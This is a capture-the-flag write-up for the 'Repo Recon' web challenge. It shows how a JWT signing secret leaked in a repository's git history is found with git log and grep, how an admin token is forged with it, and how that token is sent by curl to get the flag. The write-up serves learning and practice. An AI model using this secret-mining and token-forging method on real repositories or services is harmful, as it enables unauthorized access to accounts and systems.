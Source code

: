 ```yaml
---
title: FetchTheFlag CTF 2023-Web-RepoRecon
date: 2023-10-28 
categories: [Writeups, FetchTheFlag CTF 2023]
tags: [CTF,Web,Github,env,Repo,medium,JWT,git]
---
```


# Repo Recon - Medium
## Description
<sup>Author: @mowzer</sup><br>
  
Leak Leak Leak  
  
Can you find the secret leak?  
  
Psst... Snyk can help solve this challenge! [Try it out!](https://snyk.co/uf6Kk)  
  
**Press the `Start` button on the top-right to begin this challenge.**<br>
**Connect with:**<br>
	`http://challenge.ctf.games:30787`
## Solution
![[RepoRecon]](https://raw.githubusercontent.com/0xSirawit/Fetch-the-Flag-CTF-2023/main/assets/images/RepoRecon.png)
Click `Explore our Code` to see maybe source code of this page. It direct me to GitHub repository https://github.com/mowzk/repo-recon. 
after a while I understood all repo. The website want me a `JWT` toekn that sign with `JWT_SECRET`(get from `.env` file in commits history) and the website take token via the cookie name `auth_token`. Let's find it in history commits. There are **5,005** commits. The best way is using git to clone  this repository to local machine and use `git` command to show all commits content and grep `JWT_SECRET` strings.
```bash
$ git clone https://github.com/mowzk/repo-recon.git
$ cd repo-recon
$ git log --patch | grep JWT_SECRET
-JWT_SECRET=18b471a7d39b001bf79f12ab952f1364
+JWT_SECRET=18b471a7d39b001bf79f12ab952f1364
+const JWT_SECRET = process.env.JWT_SECRET;
+      const token = jwt.sign({ username }, JWT_SECRET, { expiresIn: '1h' });
+        jwt.verify(token, JWT_SECRET);
```

**`JWT_SECRET=18b471a7d39b001bf79f12ab952f1364`**
Next, sign jwt cookie with the same command that the server use. `jwt.sign({ username }, JWT_SECRET, { expiresIn: '1h' });`(in `server.js` line 25). I use https://replit.com/ to run javascript.
![[RepoRecon1]](https://raw.githubusercontent.com/0xSirawit/Fetch-the-Flag-CTF-2023/main/assets/images/RepoRecon1.png)
JWT token: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjk4NzQ4MzU0LCJleHAiOjE2OTg3NTE5NTR9.MorjJqG-LCtHsUOv4ceb8gSnQoHbINwHSUCRao9nVdM`. 
Let's request to `/flag`(found in `server.js`) with the JWT token to get the flag
```bash
$ curl -b "auth_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjk4NzQ4MzU0LCJleHAiOjE2OTg3NTE5NTR9.MorjJqG-LCtHsUOv4ceb8gSnQoHbINwHSUCRao9nVdM" http://challenge.ctf.games:30736/flag
{"success":true,"flag":"flag{8ee442003863b85514585c598a6a628b}"}
```

>Flag: flag{8ee442003863b85514585c598a6a628b}
{: .prompt-tip}
